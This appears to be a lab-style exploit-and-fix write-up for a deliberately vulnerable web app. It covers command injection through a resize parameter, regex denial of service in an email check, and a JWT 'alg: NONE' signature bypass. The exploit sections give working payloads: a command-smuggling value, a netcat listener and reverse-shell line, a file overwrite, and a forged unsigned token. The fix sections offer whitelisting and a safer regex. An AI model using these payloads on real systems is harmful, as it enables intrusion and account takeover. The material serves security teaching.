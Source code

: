 # CMD
## Exploit
```50;touch AAAAAAA;``` . 
really makes the file, so execution is possible . 

For a real exploit, we first need to listen to a certain port on our own system:  
```nc -lvp 4444``` . 
Then in the payload we will use netcat to connect to this listening port and initiate a shell:  
```50; nc 127.0.0.1 4444 -e /bin/bash;``` . 

If you do not have nc but you just want to check if your code execution works, you could for example overwrite the index.html:
```;echo "<html>rishu's solution</html>" > templates/index.html;``` . 

## Fix
change:  
```    os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')``` . 
to:  
```
    whitelist = {"50","150"}
    if sizeImg in whitelist:
        os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')
```  
alternative in php template: escapeshellarg() or escapeshellcmd() in PHP . 


# DoS regex
## Exploit
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa . 
will crash the system

## Fix
replace:  
```    match = re.search(r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@{1}([0-9a-zA-Z][-\w]*[0-9a-zA-Z]\.)+[a-zA-Z]{2,9})$", str(email))```  
with:  
```    match = re.search(r"^([0-9a-zA-Z-.\w])+@{1}([0-9a-zA-Z-\w]+\.)+[a-zA-Z]{2,9}$", str(email))``` . 

So this is not according to the RFC but fixes the issue in the application.  

https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS . 


# JWT
Make sure you have all imports installed if you run the python code locally:  
pip3 install -r requirements.txt . 

Interesting blog post:
https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9

## Exploit
After authentication you receive a JWT where you can swith the algorithm in the header to "None"
```{
  "typ":"JWT",
  "alg":"NONE"
}
``` . 
-> ewogICJ0eXAiOiJKV1QiLAogICJhbGciOiJOT05FIgp9 . 
ewogICJ0eXAiOiJKV1QiLAogICJhbGciOiJOT05FIgp9.eyJleHAiOjE1NTMwMDM3MTgsImlhdCI6MTU1MzAwMzQxOCwibmJmIjoxNTUzMDAzNDE4LCJpZGVudGl0eSI6Mn0.  
Open the local storage tab within the browser and replace the original token there.


